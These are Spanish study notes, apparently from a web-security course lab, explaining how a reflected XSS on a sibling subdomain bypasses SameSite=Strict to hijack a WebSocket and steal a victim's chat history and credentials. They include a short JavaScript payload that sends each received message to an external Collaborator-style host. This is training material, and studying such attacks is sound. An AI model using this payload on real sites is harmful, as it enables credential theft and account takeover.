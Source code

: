 En esta clase llevamos a cabo un ataque de Cross-Site WebSocket Hijacking (CSWSH) para obtener el historial de chat de una víctima, el cual incluye su usuario y contraseña en texto claro.

La clave está en que la cookie de sesión del sitio tiene la directiva SameSite=Strict, lo que bloquea el uso de cookies en peticiones entre sitios distintos. Sin embargo, el mismo dominio tiene una versión hermana (cms…) vulnerable a XSS, y ambos comparten el mismo site (por definición de navegador).

Esto nos permite lanzar el ataque desde el dominio hermano sin que SameSite lo bloquee. Aprovechamos la XSS reflejada en el login del dominio cms para inyectar un payload JavaScript que establece una conexión WebSocket legítima con el dominio original, simulando el mensaje READY, y exfiltrando la respuesta a un servidor externo (Burp Collaborator).

Esta lección muestra una técnica muy poderosa para eludir restricciones de SameSite y exfiltrar información sensible usando WebSockets en aplicaciones que no implementan protecciones adecuadas

### Parte 2

En esta clase aprovechamos una XSS reflejada en un subdominio hermano para ejecutar un ataque de WebSocket hijacking, exfiltrando el historial de chat de la víctima.

Aunque la cookie de sesión está protegida con la directiva SameSite=Strict, el navegador la enviará si la petición proviene de un mismo sitio, como un subdominio legítimo. La XSS reflejada en cms-lab-id.web-security-academy.net se usa para inyectar un payload que abre un WebSocket al dominio principal, simula el mensaje READY y envía el contenido recibido al servidor de Burp Collaborator.

Esto demuestra cómo una XSS en un dominio hermano puede comprometer por completo la cuenta del usuario, incluso cuando se aplican protecciones modernas como SameSite Strict

-----

En este apartado, vamos a explotar 3 vulnerabilidades anidadas

XSS -> CSRF -> Cross Site WebSocket Hijacking

Vamos a ver las peticiones que hace el chat, para ello definimos el scope para no ver mucha informacion basura

Ahora primeramente, debemos de entablar un webSocket, desde un archivo.js, hacemos lo siguiente:

```javascript

var ws = new WebSocket("https://burpsuite.com/chat");

// Para mandar el primer mensaje al WebSocket
ws.onopen = function(){
  ws.send("READY");
};

// Funcion para obtener la informacion que no da de vuelta el websocket
ws.onmessage = funtion(info){
    fetch("https://colaborator.com/?data=" + btoa(info.data));
};

```

Al mandar esto por el server de burp, nos manda la informacion del chat

Vemos en algunos de los script que usa el chat, vemos un subdominio con nombre CMS...... el cual es un login con la cabecera Access Control Allow Origin

Entonces desde el panel de login nuevo, hay un XSS, alli metemos el script anterior para cap´turar toda la conversacion del usuario victima






